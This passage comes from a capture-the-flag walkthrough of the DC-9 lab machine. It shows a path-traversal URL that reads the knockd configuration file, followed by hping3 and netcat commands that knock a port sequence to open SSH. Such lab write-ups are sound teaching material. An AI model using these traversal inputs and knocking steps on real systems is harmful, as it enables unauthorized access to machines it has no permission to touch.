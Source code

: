 ## Port knocking
Remember the filtered SSH port which might indicated a Port Knocking method is used? As we now have access to the file system of our target, we can try to locate the *knockd.conf* configuration file located by default at */etc/* folder. This means our URL should be:
`http://dc9/welcome.php?file=../../../../../../../../etc/knockd.conf`

![DC-9 port-knocking configuration file](/assets/img/posts/dc-9/dc-9_port-knocking-conf-file.webp) _knockd configuration file_

Now we know the order of ports we need to hit with SYN packets in order to open the SSH port - 7469,8475 and lastly 9842 port. Keep in mind the order is important!
We can use on of the follwoing methods:
1. [knockd](https://linux.die.net/man/1/knockd) - Need to be installed.
2. [hping3](https://tools.kali.org/information-gathering/hping3) - pre-instlled on Kali. Use the following command to send 1 SYN packet to each port: `hping3 -S 10.0.0.235 -p 7469 -c 1; hping3 -S 10.0.0.235 -p 8475 -c 1; hping3 -S 10.0.0.235 -p 9842 -c 1`
3. [netcat](https://en.wikipedia.org/wiki/Netcat) - I'll use this method as it is (manual but) easy.
We need to hit the port and CTRL+C in order to end the connection and move over to the next port.

```console
$ nc -v dc9 7469
10.0.0.14: inverse host lookup failed: Unknown host
(UNKNOWN) [10.0.0.14] 7469 (?) : Connection refused

$ nc -v dc9 8475                                                                                       
10.0.0.14: inverse host lookup failed: Unknown host
(UNKNOWN) [10.0.0.14] 8475 (?) : Connection refused

$ nc -v dc9 9842                                                                                       
10.0.0.14: inverse host lookup failed: Unknown host
(UNKNOWN) [10.0.0.14] 9842 (?) : Connection refused

$ nc -v dc9 22                                                                                         
10.0.0.14: inverse host lookup failed: Unknown host
(UNKNOWN) [10.0.0.14] 22 (ssh) open
SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u1
```
